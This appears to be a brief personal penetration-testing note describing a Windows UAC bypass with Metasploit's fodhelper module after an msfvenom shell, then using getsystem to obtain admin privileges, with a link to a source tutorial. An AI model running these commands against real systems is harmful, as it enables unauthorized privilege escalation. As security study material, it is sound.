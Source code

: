 ![[Pasted image 20220417215320.png]]

**After getting initial shell using msfvenom** ->

```

use exploit/windows/local/bypassuac_fodhelper msf exploit(bypassuac_fodhelper) >set session 1 msf exploit(bypassuac_fodhelper) >exploit

```
->You can see another meterpreter **session 2** opened which means we successfully exploited the target once again now let’s check user privilege

```
metrepreter > getprivs
```

Finally->(privesc)
```
meterpreter > getsystem
```

Check user privs now->
```
metrepreter > getprivs
```
We got admin privilege successfully


---

[Master Link](https://www.hackingarticles.in/bypass-uac-protection-remote-windows-10-pc-via-fodhelper-registry-key/)
